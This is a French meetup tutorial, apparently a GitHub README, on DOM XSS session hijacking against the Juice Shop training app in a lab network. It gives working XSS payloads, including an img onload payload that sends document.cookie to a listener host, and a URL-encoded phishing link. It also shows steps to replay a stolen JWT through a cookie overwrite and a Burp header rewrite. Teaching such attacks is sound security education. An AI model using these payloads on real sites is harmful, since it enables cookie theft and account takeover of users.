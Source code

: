 # xss-session-hijacking
Extrait d'un meetup Cat-Amania

## Introduction

*Session* une session web est l'état de navigation d'un internaute identifié sur un site. L'internaute ouvre une session en s'authentifiant sur le site. Lorsqu'il a ouvert une session, le serveur va conserver l'état de sa navigation. Par exemple pour un site de e-commerce, l'état de son panier. [https://fr.wikipedia.org/wiki/Session_(informatique)](https://fr.wikipedia.org/wiki/Session_(informatique))

*Cookies* un cookie est une clé-valeur persistée dans le navigateur. C'est un outil technique qui permet de maintenir une session, au fil des différentes requêtes exécutées par le navigateur.

* Affichage du cookie `token`. Le format est JWT
* Rappel de l'objectif du hack. Si on vole le cookie, on vole la session

*JWT* [https://jwt.io/](https://jwt.io/) est un standard pour transmettre des informations signées.
* Observer le contenu du token dans JWT.io
* Voir la date d'expiration du token (donc de la session) avec [https://www.unixtimestamp.com/](https://www.unixtimestamp.com/)

## Découverte de la vulnérabilité XSS

### Démo d'une vulnérabilité _DOM XSS_

Comprendre par l'exemple. L'exemple suivant est un DOM XSS parce-que, à aucun moment, le payload n'est transmis au serveur.

*Le DOM* : c'est le contenu HTML de la page web. Le navigateur lit le HTML pour découvrir la structure et le contenu d'une page. 
* Inspecter le code HTML de juice-shop.

*Le Javascript* : c'est du code source (au même titre que le DOM), qui s'exécute dynamiquement dans le navigateur (contrairement au DOM qui est plutôt statique)
* Exemple d'exécution de JS dans la console.

* Recherche de `toto`, inscription de `toto` dans le DOM. Pour afficher `toto` sur la page, le navigateur lit la balise.
* Objectif : déclencher l'exécution de code Javascript, à partir de la saisie utilisateur. Par exemple : `alert('xss')`
* Feinte (c'est le payload XSS !) pour déclencher l'exécution de JS, en ajoutant du HTML dans le DOM, saisir `<iframe src="javascript:alert('xss')">` dans le champ de recherche

### Les différents types d'attaques XSS

[https://owasp.org/www-community/Types_of_Cross-Site_Scripting](https://owasp.org/www-community/Types_of_Cross-Site_Scripting)

* Reflected XSS (AKA Non-Persistent or Type I) : La saisie utilisateur est interprétée par le navigateur, mais n'est pas persistée. Le payload est dans la requête envoyée au serveur.
* Stored XSS (AKA Persistent or Type II) : La saisie utilisateur est persistée (côté serveur), puis interprétée par les nvaigateurs lorsqu'elle est requêtée. Exemples : commentaires sous un article, posts dans un forum.
* DOM Based XSS (AKA Type-0) : La saisie utilisateur est interprétée par le navigateur, mais n'est pas persistée. Le payload n'est pas envoyée au serveur.

## Exploitation de la faille XSS

prérequis : l'utilisateur cible (victime) :
* s'est créé un compte
* s'est authentifié
* a saisi des options de paiement (par exemple)

### Faire exécuter du JS dans le navigateur de la victime

A cette étape, on sait qu'on peut exécuter du JS dans la page, suite à une saisie dans la barre de recherche. Mais comment forcer la victime à saisir du texte dans la barre de recherche ? La réponse est dans l'URL : quand on recherche `toto`, la recherche est transmise à l'application dans l'URL : `http://192.168.79.83:3000/#/search?q=toto`

* démo : envoi d'un email avec un lien `http://192.168.79.83:3000/#/search?q=toto`

### Le JS doit nous envoyer les cookies de la victime

But du hack : Si la cible (victime) est authentifiée dans l'application, on veut voler ses cookies (de façon furtive). 

* démo : exécuter l'instruction JS `document.cookie` dans la console

* Démarrer le serveur d'écoute en python

Quel payload ?
* `<iframe src="http://192.168.79.71:8888/?une_cle=une_valeur">`
  
  `<iframe src='http://192.168.79.71:8888/?'+document.cookie>`

  On voit que le navigateur n'exécute pas le JS `+document.cookie`. La requête envoyée est : `http://192.168.79.71:8888/`

* `<img src=https://github.com/favicon.ico width=0 height=0 onload=this.src='http://192.168.79.71:8888/?'+'une_cle=une_valeur'>`
  
  `<img src=https://github.com/favicon.ico width=0 height=0 onload=this.src='http://192.168.79.71:8888/?'+document.cookie>`
  
  On voit que le navigateur envoie bien ce qu'on veut...

Ensuite on peut récupérer l'URL du lien de phishing.x
* Copier coller dans le navigateur `http://192.168.79.83:3000/#/search?q=%3Cimg%20src%3Dhttps:%2F%2Fgithub.com%2Ffavicon.ico%20width%3D0%20height%3D0%20onload%3Dthis.src%3D'http:%2F%2F192.168.79.71:8888%2F%3F'%2Bdocument.cookie%3E`
* check le payload dans [https://www.urldecoder.org/](https://www.urldecoder.org/)

* Copier coller le jwt dans [https://jwt.io/](https://jwt.io/) : on voit bien le JWT de la cible

### Utiliser le token pour voler la session

* S'authentifier avec un compte quelconque
* Ecraser le cookie dans le navigateur
  ```
  document.cookie = "token=le_token; SameSite=None";
  ```
* Remplacer le [header HTTP](https://developer.mozilla.org/fr/docs/Web/HTTP/Headers) `Authorization` dans chaque requête
  ```
  Authorization: Bearer le_token
  ```
  Pour faire ça, on utilise le proxy burpsuite. Firefox envoie toutes ses requêtes au proxy, et le proxy remplace tous les headers `Authorization` avec la valeur `Bearer le_token`.

## Démos enregistrées :

* [démarrage du serveur d'écoute et test du payload](./assets/dom-xss-session-2.webm?raw=true)
* [à partir du token, vol de session](./assets/dom-xss-session-4.webm?raw=true)


## Résumé de l'attaque :

![schéma vol de session](./assets/2-meetup-session-hijacking.drawio.png?raw=true)

## La science du XSS...

[https://github.com/s0md3v/AwesomeXSS](https://github.com/s0md3v/AwesomeXSS)

[https://twitter.com/theXSSrat](https://twitter.com/theXSSrat)
